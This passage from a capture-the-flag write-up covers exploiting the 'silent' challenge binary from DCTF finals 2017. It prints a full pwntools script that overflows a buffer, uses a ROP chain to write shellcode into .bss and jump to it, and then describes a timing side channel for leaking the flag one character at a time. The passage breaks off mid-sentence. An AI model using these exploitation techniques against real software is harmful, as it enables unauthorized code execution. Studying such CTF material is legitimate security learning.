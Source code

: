 We decided to write and jump in .bss, since it was an easy target. Here is a script showing that our exploit works:

```python
#!/usr/bin/env python2
from pwn import *

context.log_level = 'debug'
context.arch='amd64'

def rem():
    url  = "silent.kv-server.dctf-f1nals-2017.def.camp"
    port = 3333
    return remote(url, port)

def loc():
    return process("./silent")

elf = ELF('./silent')
p   = loc()

# rop gadgets 
pop_rsi  = 0x4007f1 # pop rsi ; pop r15 ; ret 
pop_rdi  = 0x4007f3 # pop rdi ; ret
s_format = 0x400814 # pointer to "%s"

# Buffer overflow + ROP chain to write and jump in bss
payload  = '\x90'*1352 # enough junk to overflow rbp, but not ret
payload += p64(pop_rsi) + p64(elf.bss()) + p64(0)
payload += p64(pop_rdi) + p64(s_format)
payload += p64(elf.plt['__isoc99_scanf'])
payload += p64(elf.bss())
p.sendline(payload)

# abtrirary code we want executed
code = asm("jmp $")
p.sendline(code)

p.interactive()
```

When running this script, the binary ask for input a second time, and then jump in an infinite loop. We know it works because the process is stuck in an infinite loop and never dies. Success! Our arbitrary code is executed :D

Okay so we can execute arbitrary code, open and read a file, but how will we output the result without sys_write? Answer: We won't! We will simply test each characters found in `flag` one by one, and do one of two things: If the characters do not match our prediction, we will segfault and test another one. If the characters match, we will enter an infinite loop. If the process has not died after X seconds, we know we found the good character and can move on to the next one.

So we wrote the script, tested it locally... and got the flag!! That means we are done, right? Wrong. Our script failed miserably when trying it remotely. This was wierd, since we were not using anything specific to our local platform. So I went to the admins looking like this:
